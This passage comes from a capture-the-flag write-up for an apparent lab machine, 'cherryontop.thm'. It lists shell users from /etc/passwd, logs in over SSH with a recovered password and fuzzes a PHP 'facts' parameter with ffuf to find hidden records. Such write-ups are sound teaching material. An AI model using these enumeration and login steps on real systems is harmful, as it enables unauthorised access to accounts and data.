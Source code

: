 ```console
$ cat /etc/passwd | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
chad-cherry:x:1000:1000:Chad Cherry:/home/chad-cherry:/bin/bash
molly-milk:x:1001:1001::/home/molly-milk:/bin/sh
sam-sprinkles:x:1002:1002::/home/sam-sprinkles:/bin/sh
bob-boba:x:1003:1003::/home/bob-boba:/bin/sh
notsus:x:1004:1004::/home/.notsus:/bin/sh
```

Now, using the password we have along with the `molly-milk` username, we are able to use `SSH` to get a shell and read the first part of the Chad Cherry's password.

```
$ ssh molly-milk@cherryontop.thm

$ wc -c chads-key1.txt
11 chads-key1.txt
```

## Shell as sam-sprinkles

### Fuzzing for IDs

Visiting `http://cherryontop.thm/`, we get a page about an ice cream shop.

![Web 80 Index](web_80_index.webp){: width="1200" height="600" }

Clicking the `Ice Cream Facts` on the navigation bar, we get redirected to `http://cherryontop.thm/content.php` where we can get facts about ice cream.

Upon submitting the form to get a fact, we see our request is this: `http://cherryontop.thm/content.php?facts=1&user=I52WK43U`

![Web 80 Facts](web_80_fact.webp){: width="1200" height="600" }

By fuzzing, we discover a couple more facts apart from the ones listed on the form.

```console
$ ffuf -u 'http://cherryontop.thm/content.php?facts=FUZZ&user=I52WK43U' -w <(seq 1 100) -mc all -fw 754
...
1                       [Status: 200, Size: 2499, Words: 759, Lines: 63, Duration: 86ms]
2                       [Status: 200, Size: 2519, Words: 762, Lines: 63, Duration: 85ms]
3                       [Status: 200, Size: 2514, Words: 762, Lines: 63, Duration: 85ms]
4                       [Status: 200, Size: 2523, Words: 761, Lines: 63, Duration: 85ms]
20                      [Status: 200, Size: 2479, Words: 755, Lines: 63, Duration: 87ms]
43                      [Status: 200, Size: 2498, Words: 759, Lines: 63, Duration: 86ms]
50                      [Status: 200, Size: 2487, Words: 757, Lines: 63, Duration: 88ms]
64                      [Status: 200, Size: 2486, Words: 757, Lines: 63, Duration: 87ms]
```

Checking all of them, we don't get anything useful.

### Fuzzing with Usernames
